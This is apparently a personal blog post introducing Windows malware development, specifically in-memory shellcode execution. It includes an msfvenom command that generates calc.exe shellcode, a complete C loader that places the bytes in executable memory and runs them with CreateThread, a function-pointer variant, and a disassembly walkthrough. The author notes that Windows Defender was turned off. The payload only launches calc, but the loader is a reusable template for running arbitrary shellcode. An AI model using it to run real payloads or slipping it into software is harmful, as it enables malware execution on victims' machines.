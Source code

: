 +++
title = "Introduction to shellcode execution"
date = "2024-05-12T17:50:19+05:30"
author = ""
authorTwitter = "" #do not include @
cover = ""
tags = ["malware development", "reverse engineering"]
keywords = ["", ""]
description = "Part1: Introduction to malware development - shellcode execution"
showFullContent = false
readingTime = true
hideComments = false
color = "" #color from the theme settings
draft = false
+++

# Introduction
Hey, everyone in this short blog post I’m going to discuss about shellcode execution in windows environment. I know there are a lot of blogs about this topic available online, lately I started learning windows internals and malware development & exploitation on windows platform so I’m writing this blogs to document my process for my own future references. In this blog I’m not going to show any crazy EDR/Anti-virus or AMSI bypass techniques, rather I’m covering the foundational knowledge required to get started in malware development.

```
Disclaimer: 
Malware development is illegal. 
This blog post is for educational purposes only to understand how malware works. 
I am not responsible for any illegal activity resulting from the information provided.
```

In upcoming modules I’ll cover more advanced malware development concepts to bypass AV/EDR solutions. I’m planning to write it as a series of blog posts, so lets get started. If you are a red teamer, exploit developer, malware analyst or simply you want to understand how malware works, this blog post is for you.


# What is a shellcode?
Shellcode is a small piece of assembly code used to exploit a software vulnerability, malware also uses this shellcode to do malicious actions which can be connecting back to a C2, providing reverse shell to attacker or exploiting additional software vulnerabilities for higher privileges. In this blog post we’ll execute a simple calc shellcode which spawns calc.exe program.


I’m using metasploit to create shellcode. Using the below command we will generate the shellcode in a format that we can use it in our malware.

``` bash
msfvenom -p windows/x64/exec CMD='calc.exe' -f c
```

![shellcode generate](/img/intro_to_shellcode_exec/1.png)


I’ll be using C to write the malware, you can use the language which is suitable for you (go, .net, nim, etc).

# Method 1: Shellcode Execution as a Thread

```c
#include <iostream>
#include <Windows.h>

int main()
{
	LPVOID ptr_address;
	unsigned char shellcode[] =
		"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
		"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
		"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
		"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
		"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
		"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
		"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
		"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
		"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
		"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
		"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
		"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
		"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
		"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
		"\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
		"\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
		"\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd"
		"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
		"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
		"\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00";


	ptr_address = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	RtlMoveMemory(ptr_address, shellcode, sizeof(shellcode));
	CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)ptr_address, NULL, 0, 0);
	getchar();
	return 0;
}
```

Lets breakdown the code. **ptr_address** is a PVOID data type in windows, which is basically void pointer equivalent to **void \*ptr_address**. Next our shellcode is declared as a variable named shellcode.


**VirtualAlloc** function allocates the requested memory space dynamically in calling process virtual memory which returns a pointer. **MEM_COMMIT | MEM_RESERVE** is used to reserve and commit pages in one step. Check MSDN documentation to learn more. 

**PAGE_EXECUTE_READWRITE** set’s the allocated memory pages permission to RWX, which is required to execute shellcode in memory, alternatively we can use VirtualProtect function to change the permission of the page. By default windows enables DEP (Data Execution Prevention) which prevents us from executing shellcode, so to bypass this restriction we are allocating the memory pages as RWX. 

**RtlMoveMemory** function moves the content of shellcode variable to newly allocated buffer. Basically it’s windows version of memcpy.  

 

**CreateThread** function starts a thread in calling process virtual memory. 3rd parameter to the function is the pointer to be executed. In our case the newly allocated buffer which holds our shellcode. 

Compile the above code using visual studio. Build the project and start executing it, it will spawn the calc.exe process. We can use this base template to test our shellcodes in upcoming blogs.

![shellcode execution](/img/intro_to_shellcode_exec/2.png)

# Method 2: as function pointer

```c
	ptr_address = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	memcpy(ptr_address, shellcode, sizeof(shellcode));
	int (*fn_ptr)();
	fn_ptr = (int (*)()) (void*)ptr_address;
	(int) (*fn_ptr)();
```

We can execute shellcode as a function pointer as well, you might’ve seen similar code in shellcode tester programs, we are also doing the same. Using memcpy function copied the shellcode to newly allocated buffer. 

Then declaring a function pointer named **fn_ptr**. Then the allocated buffer is type casted to the function pointer type. After that we are executing the function **fn_ptr** indicates as a function pointer. Sounds little confusing right? so let’s look at the assembly equivalent of the program. 

*I’m Ghidra user but for this example I’m using IDA freeware to disassemble the binary*.

![shellcode reversing](/img/intro_to_shellcode_exec/3.png)

In the first block we can see a call to VirtualAlloc function, before the function call the required parameters for the function is placed in the appropriated registers (rcx, rdx, r8, r9), the return address stored in rax register is being moved into r8 register after the call to VirtualAlloc. Then in the next block a call is made to r8 register which is pointing to our shellcode. call is just an unconditional branch instruction so whatever is pointed by r8 register gets executed (In our case our shellcode). In between there is no changes in r8 register. 

In assembly it looks a lot simpler than C source code.


```
Note for this example I've disabled windows defender 
otherwise defender will detect it as malicious executable and removes it
```

# references
https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc

https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread

https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect
